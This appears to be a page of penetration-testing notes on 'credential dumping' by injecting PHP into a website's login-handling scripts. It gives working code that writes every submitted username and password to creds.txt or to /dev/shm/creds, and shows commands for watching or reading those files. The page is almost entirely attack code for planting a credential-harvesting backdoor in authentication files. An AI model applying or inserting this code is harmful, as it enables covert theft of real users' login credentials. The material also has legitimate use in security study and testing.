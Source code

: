 ```yaml
---
icon: key-skeleton
---
```


# Credential Dumping

{% hint style="info" %}
<mark style="color:red;">**`File-based Credentials Dumping via PHP Injection`**</mark>

<mark style="color:purple;">This technique involves modifying any</mark> <mark style="color:orange;">`authentication-handling`</mark> <mark style="color:purple;">PHP file to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**log**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">user credentials to a file on the server.</mark>

* <mark style="color:purple;">Add the next line after</mark> <mark style="color:orange;">**`<?php`**</mark><mark style="color:purple;">:</mark>&#x20;

{% code overflow="wrap" %}
```php
file_put_contents("creds.txt", $_POST['log']." - ".$_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">The attacker can continuously check the</mark> <mark style="color:orange;">**`creds.txt`**</mark> <mark style="color:purple;">file for new data using a command like this:</mark>

{% code overflow="wrap" %}
```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/creds.txt
```
{% endcode %}

***

<mark style="color:red;">**`Memory-based Credentials Dumping via PHP Injection`**</mark>

<mark style="color:purple;">This method involves injecting PHP code into an authentication PHP script to</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**capture login credentials**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and write them to a</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**temporary memory file**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">(</mark><mark style="color:purple;">`/dev/shm`</mark><mark style="color:purple;">).</mark>

* <mark style="color:purple;">The following code to capture the</mark> <mark style="color:orange;">**`$_REQUEST`**</mark> <mark style="color:purple;">data (which includes the</mark> <mark style="color:orange;">**`$_POST`**</mark> <mark style="color:purple;">data from the login form) and write it to a file:</mark>

{% code overflow="wrap" %}
```php
<?php
$rrr = print_r($_REQUEST, true);
$fff = fopen("/dev/shm/creds", "a");
fwrite($fff, $rrr);
fclose($fff);
```
{% endcode %}

* <mark style="color:purple;">Just</mark> <mark style="color:orange;">**`cat`**</mark> <mark style="color:purple;">the file:</mark>

```sh
cat creds
```
{% endhint %}
